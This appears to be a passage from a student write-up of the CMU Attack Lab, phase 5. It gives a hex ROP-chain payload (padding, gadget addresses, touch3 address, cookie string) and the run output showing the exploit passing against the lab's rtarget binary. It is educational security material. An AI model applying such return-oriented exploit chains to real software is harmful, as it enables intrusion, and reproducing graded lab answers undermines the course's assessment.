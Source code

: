     ```
    00 00 00 00 00 00 00 00
    00 00 00 00 00 00 00 00
    00 00 00 00 00 00 00 00
    00 00 00 00 00 00 00 00
    00 00 00 00 00 00 00 00 /* 40 bytes to fill the stack frame of getbuf */
    06 1a 40 00 00 00 00 00 /* gadget 1 address */
    a2 19 40 00 00 00 00 00 /* gadget 2 address */
    ab 19 40 00 00 00 00 00 /* gadget 3 address */
    48 00 00 00 00 00 00 00 /* cookie string address offset */
    dd 19 40 00 00 00 00 00 /* gadget 4.3 address */
    34 1a 40 00 00 00 00 00 /* gadget 4.2 address */
    13 1a 40 00 00 00 00 00 /* gadget 4.1 address */
    d6 19 40 00 00 00 00 00 /* add_xy first instruction address */
    a2 19 40 00 00 00 00 00 /* gadget 6 address */
    fa 18 40 00 00 00 00 00 /* touch3 first instruction address */
    35 39 62 39 39 37 66 61
    00 00 00 00 00 00 00 00 /* cookie string */
    ```

- The result is 

    ```
    LD_PRELOAD=./printf.so ./rtarget -q -i phase_5/phase_5_exploit_raw.txt 

    Cookie: 0x59b997fa
    Touch3!: You called touch3("59b997fa")
    Valid solution for level 3 with target rtarget
    PASS: Would have posted the following:
            user id bovik
            course  15213-f15
            lab     attacklab
            result  1:PASS:0xffffffff:rtarget:3:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 06 1A 40 00 00 00 00 00 A2 19 40 00 00 00 00 00 AB 19 40 00 00 00 00 00 48 00 00 00 00 00 00 00 DD 19 40 00 00 00 00 00 34 1A 40 00 00 00 00 00 13 1A 40 00 00 00 00 00 D6 19 40 00 00 00 00 00 A2 19 40 00 00 00 00 00 FA 18 40 00 00 00 00 00 35 39 62 39 39 37 66 61 00 00 00 00 00 00 00 00 
    ```